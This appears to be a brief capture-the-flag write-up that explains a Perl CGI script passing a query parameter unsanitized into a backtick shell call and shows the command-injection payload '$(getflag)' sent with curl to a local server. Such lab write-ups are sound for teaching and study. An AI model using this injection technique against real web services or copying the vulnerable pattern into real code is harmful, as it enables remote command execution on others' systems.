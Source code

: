 At the user's home, there is a .pl file:

```perl
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
  }
  x(param("x"));
```

In Perl, CGI (Common Gateway Interface) is a protocol for executing scripts via web requests. 
This script prints the first query parameter x -> $_[0] to the standard output using the system `echo`.

However, during the substitution of the variable $y, there is no sanitization. By adding `&(getflag)` i can use the command substitution
to execute a command and give the result to echo.

I send it with the curl command:
```bash
curl 'http://localhost:4747/?x=$(getflag)'
```
